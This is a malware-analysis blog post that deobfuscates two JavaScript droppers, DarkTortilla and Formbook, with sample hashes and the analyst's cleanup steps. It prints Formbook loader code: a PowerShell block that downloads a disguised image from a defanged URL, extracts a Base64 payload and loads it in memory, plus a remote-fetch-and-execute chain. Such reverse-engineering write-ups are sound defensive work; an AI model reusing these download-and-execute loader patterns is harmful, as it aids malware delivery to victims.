<h1 style="text-align:center"> JavaScript Malwares </h1>

After a long break, I’m back with a post where we examine malware written in the language so dearly **loved(!)** by malware analysts **— JavaScript —** and the reverse engineering techniques involved.

JavaScript is a high-level programming language that runs in web browsers and enables the creation of dynamic and interactive content. Especially thanks to its ability to run on the server side, it brings interactivity to web pages; many functions such as forms, animations, and user interactions are handled via JavaScript. In modern applications, it is not limited to the browser — thanks to environments like **Node.js**, it is also used on the client side.

However, the broad usage of **JavaScript** has also made it an attractive target for attackers. It is frequently abused in browser-based attacks (e.g., XSS – Cross-Site Scripting) or through malicious ads (malvertising). Moreover, the interpretable and dynamic nature of JavaScript files makes it easier to hide malicious code. Therefore, when analyzing JavaScript-based malware, understanding the basic structure and logic of the language is crucial.

In recent years, from what I’ve observed in the field, malware written in JavaScript focuses heavily on obfuscation — code blocks are often obfuscated in 3-4 layers, typically end with the execution of malware on the device using PowerShell or other built-in structures. In contrast to past years where attackers used techniques like anti-debug, those methods are now mostly abandoned. So, if you’re planning to analyze a modern JavaScript malware sample, it’s wise to be prepared for 4-5 stage techniques.

In this post, we’ll analyze two malware samples I found on various forum sites, which I believe contain techniques suitable for this write-up. I don’t claim to be an expert in JavaScript; since it’s not a language I frequently encounter in my professional career, I usually try to construct the analysis steps based on techniques I find on different forums. I welcome readers who are knowledgeable in this area to share their valuable insights and tips with me :)

---

<h1 style="text-align:center"> Sample 1 (DarkTortilla) </h1>

I’m leaving the malware’s hash values and the source link where you can download it below.

MD5: [d59e511ddc60cb9d264b524bec71cd89](https://bazaar.abuse.ch/sample/79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24/)

SHA256: [79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24](https://bazaar.abuse.ch/sample/79b406f24b40b7fdf1b4ff5b629e9fd3a2033ff84f3792798627dee349324b24/)

Since JavaScript is a language that works with an interpreter, we can directly read the source code using text editor tools. When we examined the relevant malware with the VSCode tool, we identified large comment sections and junk code, which are techniques frequently used by attackers to make analysis more difficult. These kinds of methods are used to increase the file size, slow down the tools being used, make navigating through the code harder, and slow down automated tools.

After seeing a large encoded data block, we start navigating through the code a bit to find the parts where the code performs decode and execution.


Behind the large data block, we’re met with functions and variables created with random names. Are we surprised? Of course not. In addition to the comment sections, the malware also uses a technique called **"unused declarations"** to make analysis more difficult. This is one of the methods used to hinder readability of the code — a variable is declared but never used, or it's assigned to another variable but has no real purpose in the core algorithm. These kinds of code patterns are generally referred to as **"junk-code"**.

Next, we detect a decoding operation using the **"String.fromCharCode"** method. Instead of assigning string values to variables directly, the malware constructs the strings character by character in an obfuscated way. This is yet another technique used to complicate analysis and evade automated tools.


So how do we navigate through all this complexity? How do we uncover the actual purpose of the code?

After experimenting a bit with scripting and algorithms in PowerShell, I couldn’t come up with a highly optimized solution — and whatever I was going to produce didn’t look like it would perform very efficiently either. So I thought it might be a good idea to benefit from today’s technologies a little. Naturally, I turned to AI :D

Thanks to ChatGPT and Gemini, they pointed out that there are specific libraries designed for these kinds of tasks and that they have certain capabilities for handling them. The algorithm explanation is on me; the code writing — that's on our AI buddies. Much appreciated :D

You can find the related script that removes unnecessary comment lines, unused variables, and makes the code more readable at my [**GitHub**](https://github.com/fatihbeyexe/JavaScript-Basic-Cleaner).

To use this script, follow the steps below to initialize a **"Node.js"** project and install the necessary packages. Afterward, you can adjust the **"inputPath"** and **"outputPath"** variables in the code to clean your targeted JavaScript file and the resulting output.

```cmd
npm init -y
npm install @babel/core @babel/preset-env @babel/traverse @babel/parser
npm install prettier
cscript.exe //nologo cleaner.js
```

As a result of our script, we get a somewhat cleaner(!) and more readable code, but we still encounter **"String.fromCharCode methods"**. To handle these, you can simply open a JavaScript interpreter via the command line using the node command and manually execute the relevant expressions to see their decoded output. There’s almost certainly an automated tool for this as well, but I chose not to spend time on that during the analysis process.


By replacing the char values with their actual characters, we make the functions more readable. The first function we encounter creates an **"XML"** object using **"ActiveXObject"**, and then it creates an element on this object with a random name. The key point here is the **"dataType"** property, which is set to **"bin.base64"**. Basically, this function takes the input parameter, decodes it from Base64, and returns the result.



Looking at the second function we encounter, we again see that an ActiveXObject is used to create a Stream object. Through this object, a file is created, data is written into it, and then the file is saved. Shortly after, within two lines, this function is called, and the results coming from the decodeBase64 function are written into files.



In conclusion, when we look at the entire script; the variables **"JsFileHandle"** and **"XLSXFileHandle"** hold the names of files that will be created under the **"Temp"** directory. The values stored in two variables at the beginning of the script are decoded and written into these files, and then these files are executed.



To simply extract these created files, we can update and run the script as shown below. You're right that we could directly decode the Base64 values ourselves and write them to files, but if there were a different decode or decrypt algorithm involved, this approach we use is much more reliable. It’s actually just a habit by now :D



```cmd
cscript.exe //nologo cleaned.js
```

When we run the updated script with the above command, two files with the following hash values are created in our current directory.

<h2 style="text-align:center"> Sample 1 - Stage 2 </h2>

audiodg.js

MD5: 5ed1793f3e672ce92b402f93f64cb91e

SHA256: b2fd4515eb793b36b3c166483fd7c86266842480f72697bbc01ef5e70f7d1386

xls.xlsx

MD5: 8819eb3bef38f374d00dee0f6294757f

SHA256: b54f5d7ea99a77651b650f8f7807cf4107d2a58540bc726c63e6244551e96df4

Let’s take a look at the **"audiodg.js"** file. Once again, we encounter unused variables and what appears to be data likely encoded in Base64. When the value **"TVq"** is decoded, it becomes **"MZ"**, which is the magic byte signature for executable files. Still, let’s examine the code to understand what it does with these values.



Here, we encounter a different decode operation— instead of using built-in functions like **"String.fromCharCode"**, the code defines a custom function that performs the decoding at runtime. By doing a simple CTRL+F search, we find the function named **"basebase"** and check what it does.



In the first two lines, we again see unused variables being created. Then, using **"String.fromCharCode"**, the function returns a character by subtracting **"44"** from the input value—this is the core decoding logic. The last two lines won’t execute at all, meaning they are junk code. We can manually replace the parts of our code where this function is called to make it more readable.



Again, we open an interpreter using the **node** command and run our **"basebase"** function. Then, we copy and paste the parts of the code where **"basebase"** is used, execute them, and observe the output to see the decoded values.


Using the same technique we applied in the first stage, we clean up this script and understand what it is trying to do. By utilizing ActiveXObject, the script performs a Base64 decode operation and writes the output to a file. Then, it executes that file. We identify that the decoded file is saved under the **"TEMP"** directory as **"svchost.exe"**.



We make a simple update to the code so that **"svchost.exe"** is saved to the current directory without being executed, and then we run it.



The details of the final malware that emerged in the last stage are as follows.

<h2 style="text-align:center"> Sample 1 - Stage 3 </h2>

svchost.exe

MD5: 117718d605fc83bf300615d0198726cc

SHA256: aad37a211a4b5c84d1a07881c707726ed142dbb43cab0397a4717c0251565917


---

<h1 style="text-align:center"> Sample 2 (Formbook) </h1>

The information and source of the malware we will analyze in this section are as follows.

MD5: [c40c8fe4b4735114788cad8cf85b1205](https://bazaar.abuse.ch/sample/e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d/)

SHA256: [e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d](https://bazaar.abuse.ch/sample/e38aae6be8a0206b1f65ebd508f7211027f5f0416e813ec9ac0caffd052b351d/)

Recently, around 80% of the malware samples shared on forums follow this pattern: long variables containing unreadable characters, followed by **"replace"** operations to clean or transform those variables.



When we skip the variable declarations and reach the bottom of the code, we can see the **"GET"** keyword. Since this likely indicates a download operation, we can comment out those lines and instead use the **"WScript.Echo()"** method to directly print the final values of the variables.

The variable named **"alitrunk"** here is an ActiveXObject instance of type **"MSXML2.ServerXMLHTTP"**.



When we use the technique mentioned above to extract the variables, we obtain the following results:

```javascript
grapestone = "open"
sacraries = "send"
sorrowe = "responseText"
cosmetology = "Function"
raretiesTratada = "http[:]//paste[.]ee/d[/]XUYsjP90/0"
```

In light of the resolved variables, we observe that a block of data is downloaded from the link contained in the **"raretiesTratada"** variable. The content within **"responseText"** is then defined as a function and executed. Yes, this part is a bit tricky—JavaScript allows this kind of behavior. You can think of it like the **"-command"** or **"IEX"** features in PowerShell.

<h2 style="text-align:center"> Sample 2 - Stage 2 </h2>

When we analyze the malware downloaded from that link, we find it obfuscated using similar techniques. Without much effort, we simply comment out the **"run"** part on the last line and add the command **"WScript.Echo(akala)"** to the script. Running it this way, we get a PowerShell command line output.


<h2 style="text-align:center"> Sample 2 - Stage 3 </h2>

In the related PowerShell script, a Base64 value is simply defined, then decoded and executed using **"Invoke-Expression"**. We decode this data to move on to the next stage.



<h2 style="text-align:center"> Sample 2 - Stage 4 </h2>

Here, there is actually a one-liner script, but I have formatted the code to avoid visual clutter. Let’s analyze this code step by step;


```powershell
$potluck = '0/bA5qrGyK/d/ee.e#sap//:p##h';
$SqlDateTime = $potluck -replace '#', 't';

```
Here, most likely, parameters are being prepared for the malware that will be obtained in the fourth stage. A **"paste[.]ee"** address is obtained in reverse.

```powershell
$proctorship = 'https[:]//archive[.]org/download/new_image_20250516/new_image[.]jpg';
$intraclonal = New-Object System.Net.WebClient;
$intraclonal.Headers.Add('User-Agent','Mozilla/5.0');
$stickers = $intraclonal.DownloadData($proctorship);
$organises = [System.Text.Encoding]::UTF8.GetString($stickers);
```

In this code block, to download a file from the address stored in the **"proctorship"** variable, a **"$intraclonal"** variable is created and assigned an object of type **WebClient** using the command **"New-Object System.Net.WebClient"**. In the last two lines, the data from the address is downloaded into the **"$stickers"** variable, then converted to UTF8 format and stored in the **"$organises"** variable.

```powershell
$vacillancy = '<<BASE64_START>>';
$knockwursts = '<<BASE64_END>>';
$gingall = $organises.IndexOf($vacillancy);
$slitless = $organises.IndexOf($knockwursts);
$gingall -ge 0 -and $slitless -gt $gingall;
$gingall += $vacillancy.Length;
$followdays = $slitless - $gingall;
$Messina = $organises.Substring($gingall, $followdays);
$thrivingness = [System.Convert]::FromBase64String($Messina);
$schemata = [System.Reflection.Assembly]::Load($thrivingness);
```

In the above code block, the variables **"$vacillancy"** and **"$knockwursts"** are used to identify the start and end of the Base64 blob within the downloaded data. The variables **"$gingall"** and **"$slitless"** hold the corresponding start and end indices. Then, using the **"-ge"** (greater or equal) and **"-gt"** (greater than) operators, it checks whether the file was downloaded correctly. If the file was not downloaded, these index values will likely be 0 (or invalid), causing the check to fail.

Afterward, the "Substring" method is used with these indices to extract the Base64 blob, which is assigned to the "$Messina" variable. In the last two lines, this Base64 data is decoded and loaded as a runtime module. Since PowerShell is built on the .NET platform, it can natively execute code written in .NET directly in memory.

```powershell
$tribble = [dnlib.IO.Home].GetMethod('VAI').Invoke($null, [object[]] @($SqlDateTime,'1','C[:]\Users\Public\Downloads','runnet','MSBuild','','','','','','','js','','','','2',''))
```

In the line above, the **"VAI"** method within the loaded module is executed with the specified parameters.

The image below shows the downloaded image file. Although it appears as a normal image, the black areas contain embedded Base64 data. This technique involves manipulating the magic bytes of image files to increase their size and write different data into these sections. It is a very commonly used method in malware and steganography.


You can view the starting point of the relevant Base64 data inside the image using various hex editor tools.


Here are the details of the final executable file:

MD5: 73f9e7dc303e53b7bf97c919c9c1b10b

SHA256: 421c4b4b53d291da2b53c068a491b3913d92fe0eb6f330861e7b60f3d9f8eee7

---

For your criticism, corrections, suggestions, and questions, please reach out to me through my contact addresses. Your feedback is valuable to me :)
